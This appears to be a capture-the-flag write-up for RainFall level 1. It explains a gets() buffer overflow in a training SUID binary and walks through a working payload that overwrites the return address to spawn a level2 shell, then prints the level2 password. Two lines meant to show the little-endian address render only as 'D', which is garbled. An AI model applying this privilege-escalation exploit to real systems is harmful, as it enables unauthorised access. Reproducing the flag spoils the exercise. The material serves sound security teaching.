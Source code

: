 ## Level 1 Walkthrough

### Who am I?

```bash
level1@RainFall:~$ id
uid=2001(level1) gid=2001(level1) groups=2001(level1)
```

### Where am I?

```bash
level1@RainFall:~$ ll
total 8
-rwsr-s---+ 1 level2 users 5138 Mar  6  2016 level1
```

We are in possession of a SUID binary owned by `level2`. Our objective is to exploit this binary to gain a shell as `level2` and read the corresponding `.pass` file.

---

## Program Behavior

The program accepts input from stdin and immediately returns. It does not provide any feedback, which suggests that its behavior is silent unless something specific is triggered.

Here are a few examples:

```bash
level1@RainFall:~$ ./level1
hello
level1@RainFall:~$ ./level1
123
level1@RainFall:~$ echo "test" | ./level1
level1@RainFall:~$
```

In each case, the program accepts the input and exits quietly, without printing anything or showing an error message. This confirms that it expects a very specific input or is relying on hidden internal logic.

---

## Static Analysis (Ghidra)

Using Ghidra, we observe two key functions:

### `void run(void)`

```c
void run(void)
{
  fwrite("Good... Wait what?\n", 1, 19, stdout);
  system("/bin/sh");
}
```

This function prints a message and attempts to spawn a shell.

### `void main(void)`

```c
void main(void)
{
  char buffer[76];
  gets(buffer);
}
```

The use of `gets()` is unsafe, as it does not check the length of user input. This presents a classic buffer overflow opportunity.

---

## Exploitation Strategy

### Step 1: Identify the overflow offset

We want to find how many bytes it takes to reach and overwrite the return address. Using trial and error or pattern generation, we determine this offset is **76 bytes**.

### Step 2: Find `run()` address

Using GDB:

```bash
(gdb) p &run
$1 = (<text variable, no debug info> *) 0x8048444 <run>
```

### Step 3: Craft the payload

Before building the payload, it is important to understand how memory addresses are represented in this architecture.

#### Why little-endian?

The system we're exploiting runs on an **x86 (i386)** architecture, which uses **little-endian** byte ordering. This means that when a multi-byte value (like an address) is stored in memory, its **least significant byte (LSB)** is stored first.

For example, if the address of `run()` is:

```
0x08048444
```

Then it must be written in memory as:

```
D
```

This is because memory reads the bytes from lowest to highest address, and in little-endian systems, the LSB comes first.

If you were to write it as `D`, it would actually represent a totally different address (0x44840408), and your exploit would fail.

* 76 bytes of filler (e.g. "A" \* 76)
* Address of `run()` in little-endian format: `\x44\x84\x04\x08`

```bash
python -c 'print("A" * 76 + "\x44\x84\x04\x08")' > /tmp/exploit
```

### Step 4: Make the shell interactive

If we run:

```bash
level1@RainFall:~$ cat /tmp/exploit | ./level1
Good... Wait what?
Segmentation fault (core dumped)
```

The message "Good... Wait what?" confirms that the `run()` function was successfully invoked, but the shell dies immediately afterward. This happens because the pipe (`|`) closes the standard input (`stdin`) of the child process.

As a result, the shell spawned by `system("/bin/sh")` cannot read input and exits instantly.

To fix this, we use `-` with the `cat` command. This tells `cat` to concatenate both `/tmp/exploit` **and** the terminal's `stdin`, so that `./level1` receives the exploit payload and can still read from user input afterward:

```bash
cat /tmp/exploit - | ./level1
```

This keeps the shell open and interactive.

### Step 5: Validate access

```bash
$ whoami
level2
$ cat /home/user/level2/.pass
53a4a712787f40ec66c3c26c1f4b164dcad5552b038bb0addd69bf5bf6fa8e77
```

---

## Files in this repository

* `flag.txt`: file containing the retrieved flag
* `asm_analysis.md`: GDB analysis of the binary
* `source/`: contains `ghidra/` (raw Ghidra decompilation) and `clean/` (cleaned C, faithful to binary)